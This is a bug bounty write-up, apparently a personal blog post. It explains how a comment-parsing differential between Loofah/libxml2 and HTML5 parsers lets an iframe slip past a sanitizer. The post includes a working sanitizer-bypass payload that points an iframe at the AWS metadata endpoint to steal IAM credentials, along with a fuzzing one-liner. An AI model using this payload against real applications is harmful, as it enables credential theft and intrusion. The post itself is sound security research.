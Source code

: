 ```yaml
---
layout: post
title:  "Opinions are like Bugs - Every Spec has one."
date:   2023-07-24
categories: bugbounty
---
```


*When two specifications have differing opinions on how something should be parsed: here be dragons.*

This writeup is about a bug I first discovered over a year ago and have found a number of times since. There's nothing particularly novel about the vulnerability itself, but I think there's an interesting lesson in here about why it exists, and about where to look for other bugs that exist for the same reason. 

---

The first time I spotted this issue it was in a sanitizer library for ruby called [loofah](https://github.com/flavorjones/loofah). This is a tool commonly used in Ruby on Rails projects, and has shipped as a part of Rails core since v4.2. That finding let me escalate a strictly limited html injection to RCE. Below is what the html injection payload looked like, you may be able to guess how it worked.

```
<!--><iframe src=http://169.254.169.254/latest/meta-data></iframe>-->
```

The application I was testing allowed me to generate reports and export them as PDFs. After generating a sample and examining the metadata I knew what pdf generator was being used to accomplish this. A quick test of that tool proved that an SSRF should be possible if I could inject an iframe, as the generator would attempt to populate that iframe by loading it from the server. Injecting an image tag pointing to a burp collab resulted in a callback from an aws EC2 ip, so my plan was to try pulling IAM creds from the aws metadata instance. At first this failed. 

All of the inputs I could control were validated against a strict allowlist of safe html tags and attributes. Things like text formatting, images, and links were allowed but iframes were not.

I spent some time mapping out allowed tags and attributes, but the results didn't look very promising. After a lot of testing I had exhausted all obvious options, but I was so close I couldn't stop yet. One final possibility was still tickling my brain. 

I wasn't totally sure what was being used to scrub my input, and I wanted to thoroughly test the sanitizer before calling it complete. I knew it was a ruby on rails application, and that rails made Loofah available for sanitizing HTML input. I pulled open rails console and starting pushing on Loofah in every direction trying to find interesting behaviour. Of all the tags that were allowed by the application I was testing, the one that stood out the most was the HTML comment tag `<!-- -->`. I wondered if it might be possible to leverage a parsing differential such that loofah would see the iframe as being inside a comment, but the pdf generator would not. 

The test was fairly simple to implement. I generated a wordlist using the following oneliner, and generated a pdf report containing that wordlist. I expected most of them to be considered comments by the PDF generator, but if any of the iframes were rendered I should get a nudge on my burp collaborator. 

```
ruby -e "0.upto(65535) {|i| puts '<\!--' << i << '<iframe src=burpcollap/?id=' << i << '></iframe>-->'}"
...
<!--[<iframe src=burpcollab/?id=91></iframe>-->
<!--\<iframe src=burpcollab/?id=92></iframe>-->
<!--]<iframe src=burpcollab/?id=93></iframe>-->
<!--^<iframe src=burpcollab/?id=94></iframe>-->
<!--_<iframe src=burpcollab/?id=95></iframe>-->
...
```

To my surprise, I got a hit on `burpcollab/?id=62`, the codepoint for the greater-than character `>`. This allowed me to bypass the sanitizer, which meant I could inject an iframe, steal the AWS creds from the metadata instance, and escalate to RCE. I still wanted to understand what was happening to cause the two HTML parsers to behave differently. 

![image](https://media4.giphy.com/media/zrmTqopWm4W5cPg8Ah/giphy.gif?cid=ecf05e47y5ni6z9jd9m44cw1nvjr16cx3cpbw5zi8tmblrgl&ep=v1_gifs_search&rid=giphy.gif&ct=g)

# But why?

To investigate what was going on I pulled open my ruby interpreter to see what this input looked like from Loofah's perspective. I started by defining a loofah scrubber that would take an html fragment and remove any instances of the <iframe> tag.

```
irb(main):001:0> require 'loofah'
=> true
irb(main):002:1* iframe_scrubber = Loofah::Scrubber.new do |node|
irb(main):003:1*   node.remove if node.name == "iframe"
irb(main):004:0> end
```
I tested this on a normal iframe, and it behaved as expected:
```
irb(main):005:0> html = "<h1>iframe test</h1><iframe></iframe>"
irb(main):006:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1>"
```
Then I tested it with a normal comment:
```
irb(main):007:0> html = "<h1>iframe test</h1><!--<iframe></iframe>-->"
irb(main):008:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1><!--<iframe></iframe>-->"
```
And finally, with the modified comment discovered by our fuzzer:
```
irb(main):009:0> html = "<h1>iframe test</h1><!--><iframe></iframe>-->"
irb(main):010:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1><!--><iframe></iframe>-->"
```
As expected, Loofah see's the iframe tag in both of the the last two examples as being safely tucked inside a comment. However, when this exact same code is passed to the pdf generator, the iframe is rendered. This means that whatever is parsing the HTML in the pdf generator parses this in such a way that the iframe tag is not inside the comment. 

Even better, the html parsers in modern browsers agree with the pdf generator. Open a page with this html in chrome, firefox, edge, etc, and you'll see a rendered iframe:
```
<!--><iframe src=about:blank></iframe>-->
```

At first glance, this seemed like a bug in the html parser that Loofah is using, but after some investigation it turned out to be something much worse: Competing specs with different opinions. 

![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/c57b60f0-9e28-496b-b6e5-00062a7daba1)

---

# Competing Specs

Loofah uses an html parsing framework called Nokogiri, which is built on libxml2. Libxml2 is a very popular xml (and html) parsing library that tries to be compliant with the [W3C html 5 specification](https://www.w3.org/TR/2011/WD-html5-20110405/tokenization.html). The problem is that this library is very old, and pieces of it's parsing functionality are much older than the most recent version of the standard. 

The library's comment parsing functionality, for example, was [implemented in 2000](https://github.com/GNOME/libxml2/blame/75693281389aab047b424d46df944b35ab4a3263/HTMLparser.c#L3455). At that time, there wasn't any clear guidance in the standard around how to parse comments. The way the libxml2 authors interpreted the specification resulted in the following steps:

- the tokenizer encounters the opening comment sequence `<!--` 
- Move the tokenizer forward until et encounters the closing comment sequence `-->` 
- treat everything inside as a comment. 

This means that, given our sequence `<!-->`, the `>` would be ignored and everything up to `-->` would be a comment. This explains why Loofah saw our iframe as being inside a comment. 

Eventually, the rules changed and as of the first completed html5 spec published in 2008, the rules for parsing comments were as follows:

- We start in "tag open state," and we encounter an `!`, so we swtich to "markup declaration state"
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/910ae211-55c1-418c-bc4b-e451f3f550c1)


- If the next two characters are `--` we switch to `comment start state`
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/cf9df270-cfb4-4e7b-a16f-372f54112f52)


- And finally, if the very next character is `>`, we throw a parse error and switch back to "data state" instead of "comment state".
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/3772de46-3a2c-4d2f-97ea-c5abd2a36258)


Now, given the sequence `<!-->`, the comment is opened and then immediately closed. Everything following the `>` is outside the comments. This explains why the PDF generator, and modern browsers, render the iframe. 

---

This issue has been patched in the most recent version of libxml2, but I still find it frequently. Any HTML parsing framework that depends on an old version of libxml2, or was developed against an older version of the HTML5 spec is likely vulnerable to this bug. For example, beautiful soup is another parsing framework that follows the old rules for parsing comments: 

```
>>> import bs5
>>> soup = bs4.BeautifulSoup("<iframe></iframe>", "html.parser")
>>> soup.iframe
<iframe></iframe>
>>> soup = bs4.BeautifulSoup("<!-- <iframe></iframe> -->", "html.parser")
>>> soup.iframe
>>> soup = bs4.BeautifulSoup("<!--> <iframe></iframe> -->", "html.parser")
>>> soup.iframe
>>>
```
Note that the last two examples, the normal comment and the abruptly closed comment, are treated the same. This has been reported but no fix has been implemented as yet. 

---

# Lesson

The lesson I learned from this research is that when you're dealing with complex functionality that depends on a specification like an RFC, you should read it. These documents can be a slog but the more you read the better you'll become at parsing and understanding them. There are so many subtle details hidden away in standards that are just waiting to be stumbled on by the right hacker with the right mindset. Keep your eyes peeled for ambiguous language, major changes across versions, and situations where more than one standard exists and your input is being consumed by both of them at different times.

